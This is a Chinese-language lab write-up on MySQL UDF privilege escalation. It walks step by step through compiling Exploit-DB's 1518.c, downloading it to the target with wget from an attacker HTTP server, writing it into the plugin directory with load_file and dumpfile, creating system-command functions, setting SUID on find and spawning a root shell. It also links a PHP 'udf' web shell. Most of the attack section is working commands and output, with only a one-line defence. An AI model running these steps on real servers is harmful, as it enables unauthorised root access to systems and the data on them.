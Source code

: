 ## MYSQL函数

[http://wiki.jikexueyuan.com/project/mysql/useful-functions/string-functions.html](http://wiki.jikexueyuan.com/project/mysql/useful-functions/string-functions.html)

后面有常用到哪些函数，再列出来了。

## UDF提权

### 漏洞介绍

UDF,user defined funcion,即用户自定义函数。用户可以通过自己增加函数对mysql功能进行扩充，文件后缀为.dll。

通过添加用户自定义函数所导出的dll，然后在mysql中使用用户自定义函数以高权限账号执行命令，添加账号进行提权。

### 利用条件

- 拥有mysql的insert（使用`CREATE FUNCTION` 添加自定义函数）和delete权限 （使用 `DROP FUNCTION` 删除自定义函数）

### 漏洞复现

靶场环境：

- 攻击机：Kali Linux

- 靶机：Ubuntu 16.04

- MySQL：5.7.26

环境背景：

- 已知远程登录用户为普通用户权限

- mysql的运行者为root

- 已知数据库拥有insert,delete权限的用户和密码

复现过程：

1. 查看系统类型和MySQL版本信息以及插件安装目录

   ```
   mysql> show variables like "%compile%";
   
   +-------------------------+--------+
   | Variable_name           | Value  |
   +-------------------------+--------+
   | version_compile_machine | x86_64 |
   | version_compile_os      | Linux  |
   +-------------------------+--------+
   2 rows in set (0.00 sec)
   
   mysql> select @@version;
   +-------------------------+
   | @@version               |
   +-------------------------+
   | 5.7.26-0ubuntu0.16.04.1 |
   +-------------------------+
   1 row in set (0.01 sec)
   
   mysql> show variables like "%plugin_dir%";
   +---------------+------------------------+
   | Variable_name | Value                  |
   +---------------+------------------------+
   | plugin_dir    | /usr/lib/mysql/plugin/ |
   +---------------+------------------------+
   1 row in set (0.00 sec)
   ```

   - MySQL版本 < 5.0.67 放在能被系统的链接器检索的文件夹即可

   - MySQL版本 >= 5.0.67 放在安装路径MySQL目录\Lib\Plugin\

2. 查找udf脚本，编译，并上传

   ```
   root@kali:~# searchsploit udf
   ----
   MySQL 4.x/5.0 (Linux) - User-Defined Function (U | exploits/linux/local/1518.c
   ----
   
   root@kali:~# cp /usr/share/exploitdb/exploits/linux/local/1518.c ./
   
   root@kali:~# gcc -shared -o 1518.so -fPIC 1518.c
   
   root@kali:~# chmod 777 1518.so
   
   root@kali:~# python -m SimpleHTTPServer 6666
   Serving HTTP on 0.0.0.0 port 6666 ...
   
   k1ea4c@k1ea4c:/$ wget http://192.168.44.144:6666/1518.so -o /tmp/1518.so
   ```

3. 将udf脚本导入MySQL

   ```
   mysql> create table test(data blob);
    Query OK, 0 rows affected (0.13 sec)
   
   mysql> insert into test(data)values(load_file('/tmp/1518.so'));
    Query OK, 1 row affected (0.00 sec)
   ```

4. 将udf脚本导出到上面查到的插件安装目录

   [MySQL into outfile 问题解决：ERROR 1 (HY000): Can't create/write to file](https://blog.csdn.net/duxu24/article/details/53669697)

   ```
   mysql> select * from test into dumpfile '/usr/lib/mysql/plugin/1518.so';
   Query OK, 1 row affected (0.00 sec)
   ```

5. 创建自定义函数

   ```
   create function test_system returns integer soname '1518.so';
   
   ERROR 1126 (HY000): Can't open shared library '1518.so' (errno: 2 /usr/lib/mysql/plugin/118.so: file too short)
   ```

   #

   我崩了，那我就继续换种姿势

   [参考下这篇文章](https://blog.csdn.net/qq_33020901/article/details/78827375)

   导入新的动态链接库后，在创建自定义函数时又遇到另一个问题orz

   ```
   mysql> create function system returns integer soname 'mysqludf.so';
   ERROR 1127 (HY000): Can't find symbol 'system_init' in library
   ```

   解决思路:查看动态链接库，里面不存在这个system这个符号，得换个里面存在的

   ```
   mysql> create function sys_exec returns string soname 'mysqludf.so';
   
   Query OK, 0 rows affected (0.00 sec)
   
   mysql> select * from func;
   +----------+-----+-------------+----------+
   | name     | ret | dl          | type     |
   +----------+-----+-------------+----------+
   | sys_exec |   2 | mysqludf.so | function |
   +----------+-----+-------------+----------+
   1 row in set (0.00 sec)
   
   mysql> select sys_exec('whoami');
   ERROR 2013 (HY000): Lost connection to MySQL server during query
   ```

   但我又失败了，应该是环境问题，等后面换个环境再来填坑了。

6. 换了个[vulnhub靶场](https://www.vulnhub.com/entry/raven-2,269/)，但是直接执行命令一直没有返回数据，只能上面的步骤再加上find提权成功

   ```
   mysql> create function do_system returns integer soname '1518.so';
   Query OK, 0 rows affected (0.00 sec)
   mysql> select do_system('chmod u+s /usr/bin/find');
   +--------------------------------------+
   | do_system('chmod u+s /usr/bin/find') |
   +--------------------------------------+
   | 0 |
   +--------------------------------------+
   1 row in set (0.01 sec)
   $ touch k1ea4c
   $ find / -perm -4000 2> /dev/null
   /bin/mount
   /bin/umount
   /bin/su
   /usr/bin/procmail
   /usr/bin/gpasswd
   /usr/bin/chfn
   /usr/bin/at
   /usr/bin/find
   /usr/bin/newgrp
   /usr/bin/chsh
   /usr/bin/passwd
   /usr/bin/sudo
   /usr/lib/openssh/ssh-keysign
   /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   /usr/lib/eject/dmcrypt-get-device
   /usr/sbin/sensible-mda
   /sbin/mount.nfs
   $ /usr/bin/find k1ea4c -exec '/bin/sh' \;
   # whoami
   root
   ```

7. 换了个windows serv2003 + phpstudy

   采用上传[udf大马](https://github.com/echohun/tools/blob/master/%E5%A4%A7%E9%A9%AC/udf.php)方式成功进行提权，提权方法都是一样的，只不过写成php文件

   ![STkAce3RhfvDydo](https://i.loli.net/2019/08/30/STkAce3RhfvDydo.png)

### 防御方法

- 限制mysql的写入权限

### MySQL 执行系统命令

在 MySQL 的命令行界面中可以使用 system shell-cmd 或者 \! shell-cmd 格式执行 shell 命令。
